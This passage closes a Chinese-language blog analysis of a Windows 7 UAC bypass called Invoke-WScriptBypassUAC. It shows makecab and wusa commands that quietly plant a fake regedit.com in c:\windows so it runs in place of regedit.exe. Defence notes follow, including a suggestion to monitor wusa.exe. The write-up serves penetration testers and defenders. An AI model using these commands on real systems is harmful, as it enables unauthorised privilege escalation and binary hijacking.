 ```
makecab c:\test\regedit.com %TMP%\1.tmp
wusa %TMP%\1.tmp /extract:"c:\windows" /quiet
```

3、劫持

cmd输入regedit，会执行regedit.com，而不是regedit.exe

关于该利用方法的详情可参考文章：《A dirty way of tricking users to bypass UAC》

### 其他利用方法(暂略)

## 0x05 防御
---

该UAC绕过方法只适用于Win7，尚未见到对应补丁，杀毒软件能对此脚本进行拦截，但也存在绕过方法

站在防御者的角度，建议监控wusa.exe的调用

## 0x06 小结
---

本文对Invoke-WScriptBypassUAC进行了分析，虽然微软不认可该漏洞，但在后渗透阶段，不论是渗透测试人员，还是防御方，对此都应该注意。

---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)

